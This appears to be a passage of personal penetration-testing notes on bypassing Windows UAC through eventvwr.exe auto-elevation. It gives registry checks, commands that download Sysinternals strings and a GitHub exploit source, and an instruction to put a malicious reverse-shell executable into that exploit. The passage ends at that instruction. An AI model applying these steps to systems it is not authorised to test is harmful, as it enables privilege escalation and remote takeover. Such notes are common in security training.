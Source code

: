 #### Accesschk
[[12._ACCESSCHK]]

#### Bypass UAC eventvwr

https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/

Confirm UAC is on:
```command prompt - target
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

```powershell - target
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
```

Now notice the three highlighted keys above and their values.

1.  `EnableLUA` tells us whether UAC is enabled. If 0 we don’t need to bypass it at all can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys.
2.  `ConsentPromptBehaviorAdmin` can theoretically take on [6 possible values](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4) (readable explanation [here](https://www.tenforums.com/tutorials/112621-change-uac-prompt-behavior-administrators-windows.html)), but from configuring the UAC slider in Windows settings it takes on either 0, 2 or 5.
3.  `PromptOnSecureDesktop` is binary, either 0 or 1.

==ConsentPromptBehaviorAdmin  : 5==
.....
==EnableLUA                   : 1==
.....
==PromptOnSecureDesktop       : 1==
.....

#### Method 1
Next, confirm the eventvwr.exe exists:
```command prompt - target
where /r C:\windows eventvwr.exe
```

```bash - kali
wget https://download.sysinternals.com/files/Strings.zip
```

Extract the Strings zip, upload to target.

```command prompt - target
strings64.exe -accepteula C:\Windows\System32\eventvwr.exe | findstr /i autoelevate
```

![[Pasted image 20220603135619.png]]

```bash - kali
wget https://raw.githubusercontent.com/turbo/zero2hero/master/main.c
```

Uncomment block 66 - 69, changing "foobar.exe" to  your malicious reverse exe:

